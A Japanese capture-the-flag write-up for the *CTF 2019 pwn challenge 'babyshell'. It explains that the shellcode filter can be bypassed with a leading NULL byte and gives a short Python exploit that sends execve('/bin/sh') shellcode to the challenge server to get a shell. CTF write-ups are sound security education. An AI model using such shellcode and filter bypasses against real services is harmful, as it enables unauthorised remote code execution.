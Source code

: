 # [pwn 240pts] babyshell - *CTF 2019
64ビットバイナリです。
```
$ checksec -f shellcode
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		2	shellcode
```
シェルコードが実行できるサービスですが、特定の種類の文字コードしか使えません。
文字種のチェックがNULL終端なので、NULLから始まるシェルコードを送れば問題なく実行できます。

```python
from ptrlib import *

shellcode = b''
shellcode += b'\x00\xc0'
shellcode += b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

#sock = Process(["stdbuf", "-o", "0", "./shellcode"])
sock = Socket("34.92.37.22", 10002)
sock.send(shellcode)
sock.interactive()
```
たぶんこれが一番速いと思います。

他の人のwriteupを見ると、readを読んでシェルコードを読み込み、それを実行するというのが正攻法っぽいです。
でもやはりシェルコードにNULLを入れてjmpしている人もいました。

# 感想
これは出題ミスというか非想定解なのでは？
